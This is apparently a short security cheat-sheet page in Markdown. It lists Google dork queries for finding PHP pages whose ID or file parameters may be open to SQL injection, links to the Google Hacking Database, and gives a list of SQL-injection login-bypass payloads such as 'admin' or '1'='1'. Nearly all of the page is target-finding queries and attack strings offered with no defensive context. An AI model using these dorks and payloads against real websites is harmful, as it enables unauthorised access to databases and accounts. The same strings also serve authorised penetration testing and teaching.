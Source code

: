 ```yaml
---
title : "Google dork"
pre : '<i class="fab fa-google"></i> '
description : "Technique for optimizing Google search queries."
date : 2020-03-14T19:40:33+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Google Dork

### SQL-injection

[Google Dorking SQLi](https://jarnobaselier.nl/google-dorks/)

```plain
inurl:.php?id=
inurl:index.php?id=
inurl:buy.php?category=
inurl:article.php?ID=
inurl:pageid=
inurl:games.php?id=
inurl:page.php?file=
```

### Google Hacking Database

[Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

### SQL-injection queries

```plain
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
```
